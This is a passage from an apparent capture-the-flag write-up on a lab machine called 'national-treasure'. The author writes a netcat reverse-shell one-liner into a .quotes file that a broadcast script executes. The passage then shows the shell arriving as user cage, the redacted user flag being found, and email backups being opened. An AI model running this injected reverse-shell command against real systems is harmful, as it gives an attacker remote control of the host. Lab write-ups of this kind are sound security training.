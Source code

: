 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.74.9 9999 >/tmp/f

```
weston@national-treasure:/opt/.dads_scripts/.files$ echo "testing;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.74.9 9999 >/tmp/f" > .quotes
```
When the broadcast timer hits 0 it will broadcast our "new" message being or reverse shell.

Woohoo! We got a rev shell!

```
weston@national-treasure:/opt/.dads_scripts/.files$ echo "testing;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.74.9 9999 >/tmp/f" > .quotes
                                                                               
Broadcast message from cage@national-treasure (somewhere) (Mon Jul 27 16:36:01 
                                                                               
testing

```

```
kali@kali:~$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.74.9] from (UNKNOWN) [10.10.3.136] 46678
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(cage) gid=1000(cage) groups=1000(cage),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
$ 
```
Looking in cage's home directory, we see 2 things. I decided to look in Super_Duper_Checklist. We got the user flag! Step 2 complete!

```
$ ls
email_backup
Super_Duper_Checklist
$ cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: <REDACTED> <-- This was the user flag.
$ 
```

I saw a directory in cage's home directory called email_backup and decided to view the contents.

```
$ cat email_1                                                                                                                                                                                                                              
From - SeanArcher@BigManAgents.com                                                                                                                                                                                                         
To - Cage@nationaltreasure.com                                                                                                                                                                                                             
                                                                                                                                                                                                                                           
Hey Cage!                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                           
There's rumours of a Face/Off sequel, Face/Off 2 - Face On. It's supposedly only in the                                                                                                                                                    
planning stages at the moment. I've put a good word in for you, if you're lucky we                                                                                                                                                         
```